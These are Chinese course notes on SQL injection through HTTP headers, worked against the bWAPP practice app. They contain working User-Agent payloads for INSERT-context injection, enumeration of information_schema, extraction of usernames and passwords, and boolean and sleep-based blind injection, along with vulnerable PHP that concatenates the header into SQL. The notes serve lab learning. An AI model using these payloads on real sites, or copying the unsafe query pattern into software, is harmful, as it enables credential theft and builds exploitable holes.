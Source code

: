 针对HTTP请求头,如果不加以过滤或转义,直接与数据库交互的过程容易被利用进行SQL 注入攻击,即HTTP攻击

## 常见场景

访问时,Web Server会从HTTP Header中取出浏览器信息,IP地址,HOST信息等存储到数据库中

## 视频解题

使用burpsuite尝试修改User-Agent 为 123 发现在前端页面也变成 123 
随后继续修改为 123' 有报错
修改 111', '222') # 发现不仅User-Agent被修改, IP_Address 也被改变
此时尝试注入 111', (select database())); # 发现可以返回数据库名
尝试时间盲注 111', sleep(2)); # 可以看出返回时间延迟了大约两秒

## 进入容器查看
 预测形式为 insert into ... values(xxx, yyy)

docker exec -it xxx(容器ID) bash
```php
$ip_address = $_SERVER["REMOTE_ADDR"];
$user_agent = $_SERVER["HTTP_USER_AGENT"];

$sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
```
## 课后题

1 利用SQL盲注完成HTTP头注入
2 (提高)尝试用两种以上不同MySQL函数完成盲注练习
3 (进阶)修改user-agent 与 ip_address位置尝试注入

## 写作业 

#### 1 SQL注入

我们在课程中已经知道数据库名称为 bWAPP
注意每次只能返回一行,所以要 limit 1

1 information_schema.tables 为 数据库中表数据表信息
  所以 111', (select table_name from information_schema.tables where  table_schema=database() limit 1 offset 0)); #
可以成功查询数据表,但是返回为blog,并不是我们所希望的内容
接下来通过修改 offset 偏移控制返回第几条;可以发现offset为3时返回数据表名为 users

2 查询user中包含几个字段
  information_schema.columns 很重要!
  具体利用过程同上
  111', (select column_name from information_schema.columns where table_name='users' limit 1 offset 0)); #
  利用上述指令即可查得id,继续利用偏移查询
  id login password 分别位于偏移 0, 1, 2 处

3 查询具体敏感数据
  111', (select id from users limit 1 offset 0)); #
  直接对users数据表的第一个id字段进行查询
  同理将id 更换为 login 与 password 即可查询得到id为1的用户全部信息
  再更换offset重复上述操作即可完成SQL注入攻击

#### 2 两种以上不同函数完成

因为可以直执行整句逻辑,很自由,下面两种方法都可以帮助我们进行SQL注入

1 布尔注入
substring(version(), 1, 1) = 5
=5时返回1 !=5时返回 0 意味着我们还可以使用布尔进行SQL注入,需要编写简本
111', substring(database(),1,1)='b'); # 返回1 一次类推遍历 (33,128) 可以依次找寻到数据库名字全称
在时间盲注的练习中没少写... 同理


2 时间延迟注入
sleep(3) 与布尔型同理,但是可以应对没有回显情况.通过判断延时是否被执行从而推断出SQL条件是否正确
因为时间延迟注入中要前置条件为真,所以可以看作布尔注入升级版
111', substring(database(),1,1)='b' and sleep(2)); #
在布尔注入后直接加上and sleep(2)即可


#### 3 交换位置怎么办

首先修改代码
```php
$sql = "INSERT INTO visitors (date, ip_address, user_agent) VALUES (now(), '" . sqli($ip_address) . "', '" . $user_agent . "')";
```

测试111正常 
后续指令失效,原因是交换位置后已经无法再继续向后直接拼接
课程的评论区大佬已经给出了解决办法,那就是时间盲注

111'+ (substring(database(),1,1)='b' and sleep(2)));#

写burpsuite脚本还不会QAQ练习一下再回来补
